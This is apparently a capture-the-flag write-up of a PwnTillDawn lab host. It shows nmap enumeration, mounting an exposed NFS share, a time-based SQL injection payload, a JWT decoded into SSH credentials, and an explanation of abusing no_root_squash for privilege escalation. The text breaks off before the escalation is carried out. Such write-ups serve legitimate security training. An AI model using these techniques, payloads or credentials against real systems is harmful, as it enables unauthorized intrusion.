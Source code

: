 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f89ed107-9c60-4972-b2d3-a96ea103318e)

## First enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Wed Jul 10 22:48:16 2024 as: nmap -sCV -T4 -Pn -p 22,111,2049,39437,42675,44459,50985 -oN service.txt 10.150.150.59
Nmap scan report for 10.150.150.59
Host is up (0.15s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.4p1 Ubuntu 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b3:f2:84:ff:e7:34:ab:88:d6:77:16:b9:a7:01:b6:a0 (RSA)
|   256 00:4f:42:d3:20:0c:b8:3b:81:20:d7:b7:1a:d2:df:65 (ECDSA)
|_  256 dc:e6:e6:e3:22:d8:b8:82:bd:97:46:3e:27:d9:a6:2e (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34508/udp   mountd
|   100005  1,2,3      44459/tcp   mountd
|   100005  1,2,3      47131/udp6  mountd
|   100005  1,2,3      56261/tcp6  mountd
|   100021  1,3,4      37945/udp6  nlockmgr
|   100021  1,3,4      39437/tcp   nlockmgr
|   100021  1,3,4      40832/udp   nlockmgr
|   100021  1,3,4      42923/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
39437/tcp open  nlockmgr 1-4 (RPC #100021)
42675/tcp open  mountd   1-3 (RPC #100005)
44459/tcp open  mountd   1-3 (RPC #100005)
50985/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 10 22:48:29 2024 -- 1 IP address (1 host up) scanned in 13.15 seconds
```


## Enumerating NFS share pport 2049

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59]
└─$ showmount -e 10.150.150.59                                                    
Export list for 10.150.150.59:
/nfsroot *
```
we can see the nfs share `/nsfroot`. let's mmount the share 

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59/mount]
└─$ sudo mount -t nfs 10.150.150.59:/nfsroot mnt 
                                                                                                                                                                       
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59/mount]
└─$ ls -al mnt 
total 16
drwxr-xr-x 2 root root 4096 Dec 29  2023 .
drwxr-xr-x 2 root root 4096 Dec 29  2023 ..
-rwxrwxrwx 1 root root   41 Dec 29  2023 FLAG1
-rw-r--r-- 1 root root  616 Nov 17  2021 notes.txt
```
mounting the nfs share, we got a flag and note.txt


> checking the content of notes.txt

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59]
└─$ cat notes.txt 
__INTERNAL PENTEST OF WEBAPP @ CLIENT01.PTD__

VULNS:
---

Logout via GET allowed

---

robots.txt -> check, admin page noted

---

SQLI in the main.php parameter id, time based:
?id=1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)

---

No serverside check of auth data, simply parsed from client-submitted string, checked with POC:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwic2VydmVyIjoiY2xpZW50MDEiLCJuYW1lIjoiamVzc3kiLCJwYXNzIjoiNz9KbnYyQjlARSR3IiwiaWF0IjoxNTE2MjM5MDIyfQ.H8XhbfR_rR33W8hkIWTWf8RtqUjFToA2RBMkCCDeKGM

---

X-Frame-Options + X-XSS-Protection headers not set

---

tocheck:

...
```


> Analyzing the jwt token

```js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwic2VydmVyIjoiY2xpZW50MDEiLCJuYW1lIjoiamVzc3kiLCJwYXNzIjoiNz9KbnYyQjlARSR3IiwiaWF0IjoxNTE2MjM5MDIyfQ.H8XhbfR_rR33W8hkIWTWf8RtqUjFToA2RBMkCCDeKGM
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a604dbb6-343a-4088-9cf0-2a228eadf1f1)

using jwt.io do decode the jwt token, we can see username and password `jessy:7?Jnv2B9@E$w`


> Trying ssh with creds found

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/465210c7-cb84-45ee-819e-dbebe2048884)

login ssh successfully



## Privilege Escalation 

> Running linpeas

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bcb64cb8-a00e-4f00-914b-3f934d628539)

 Read the /etc/exports file, we can see the directory that is configured as no_root_squash, then we can access it from as a client and write inside that directory as if you were the local root of the machine.

- rw: This option gives the client computer both read and write access to the volume.
- sync: This option forces NFS to write changes to disk before replying. This results in a more stable and consistent environment but reduces the speed of file operations.
- inescure: This option allows clients to use any port to access NFS shares.
- no_subtree_check: This option prevents subtree checking, which is a process where the host must check whether the file is actually still available in the exported tree for every request.
- no_root_squash: This option allows privileged file writes inside the share. By default, NFS translates requests from a root user remotely into a non-privileged user on the server.

